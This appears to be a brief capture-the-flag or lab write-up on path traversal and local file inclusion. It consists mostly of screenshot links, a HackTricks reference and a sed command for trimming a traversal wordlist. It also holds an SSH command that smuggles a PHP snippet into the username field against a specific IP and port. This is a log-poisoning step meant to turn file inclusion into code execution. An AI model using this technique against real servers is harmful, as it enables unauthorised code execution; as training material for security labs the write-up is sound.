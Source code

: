 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a7b2dd5a-fb75-4691-a800-9242f265814a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0b142f2a-075f-4e6a-9b78-537719ee7601)

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
cat dot-slash-PathTraversal_and_LFI_pairing.txt | sed -e "s/.$//" > out.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9de9f00f-146c-49c8-997c-44bacc0508dd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bc2ef9b8-2236-4d56-ba7a-23b609ee2585)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ab24a67-25e2-4444-8220-b349985610f1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/65bd9ced-057c-4e2e-a7e6-e070ebdae6ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/011afb6b-8892-416c-90d9-ab6c89ecac41)
```
ssh '<?php phpinfo(); ?>'@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/13130953-76fa-43cb-88b9-5f2decc00ef2)

